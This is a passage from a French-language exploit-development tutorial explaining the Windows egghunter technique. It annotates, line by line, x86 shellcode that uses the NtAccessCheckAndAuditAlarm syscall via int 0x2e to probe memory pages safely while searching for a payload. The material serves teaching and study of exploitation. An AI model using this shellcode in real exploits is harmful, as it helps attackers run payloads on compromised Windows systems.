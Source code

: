 Durant l'appel système, l'OS va tenter d'accéder à l'adresse mémoire ou les arguments de la fonction sont stockés pour les copier de l'espace utilisateur à l'espace noyau. Si le registre `EDX` pointe sur une adresse mémoire non mappée ou à laquelle on a pas accès à cause d'un manque de permission le système d'exploitation va déclencher un *access violation*. L' *access violation* va être géré pour nous et renvoyer `STATUS_ACCESS_VIOLATION` dans `EAX`.

En appelant l'appel système `NtAccessCheckAndAuditAlarm` on va obtenir seulement deux résultats possibles :

- Si l'adresse est valide et qu'on a accès : `STATUS_NO_IMPERSONATION_TOKEN`
- Si l'adresse est non mappée ou qu'on a a pas accès : `STATUS_ACCESS_VIOLATION`

Analyse en détail du code assembleur de la preuve de concept original de *egghunter* :

```python
#
#
" loop_inc_page:    "
  # Operation `OR` sur le registre `DX` (`EDX`)
  # Va faire pointer `EDX` sur la dernière adresse de la page mémoire
"  or dx, 0x0fff  ;" 
#
#
" loop_inc_one:    "
  # Operation `INC` sur le registre `EDX`
  # Incrémenter `EDX` de `1` pour pointer sur une nouvelle page mémoire
"  inc edx    ;"
```

Le registre `EDX` contient maintenant l'adresse de la prochaine page mémoire.

```py
#
#
" loop_check:     "
  # On positionne le contenu du registre `EDX` sur la pile
  # Non nécessaire, mais permet d'assurer une sauvegarde, car on ne peut pas garantir que EDX sera restauré a la suite de l'appel système
"  push edx   ;"
  # On positionne `0x2` sur la pile. 0x2 est le numéro de l'appel système NtAccessCheckAndAuditAlarm
"  push 0x2    ;" 
  # On positionne le dernier élément de la pile (`pop`) qui est donc `0x2` qu'on vient de mettre dans la pile dans le registre `EAX`
  # Le numéro de l'appel système est dans `EAX`
"  pop eax    ;" 
  # Le numéro de l'appel système est dans `EAX` et `EDX` contient un faux pointeur
  # On invoque l'appel système va `INT`
"  int 0x2e   ;" 
```

Le système d'exploitation va invoquer l'appel système. Durant cet appel il va vérifier l'adresse mémoire stockée dans `EDX` pour récupérer les arguments de la fonction. Si l'accès a cette adresse stockée dans `EDX` entraine un *access violation* on obtiendra le statut `STATUS_ACCESS_VIOLATION` (`0xc0000005`) dans `EAX`.
